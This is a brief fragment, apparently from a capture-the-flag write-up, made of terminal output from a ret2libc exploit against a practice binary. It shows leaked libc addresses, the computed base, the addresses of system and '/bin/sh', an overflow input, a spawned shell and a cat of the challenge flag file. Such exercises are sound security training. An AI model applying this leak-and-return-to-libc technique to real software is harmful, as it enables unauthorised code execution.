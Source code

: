 leaked 7 bytes:

libc_start_main: 0x7f77209e7dd0

libc base addr: 0x7f77209c6000

system: 0x7f7720a0c640

/bin/sh: 0x7f7720b42cdb

trying to get shell, again...

[*] Switching to interactive mode

You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA3\x06@

$ cat /problems/rop2libc/flag.txt

oops_i_think_your_got_sprung_a_leak
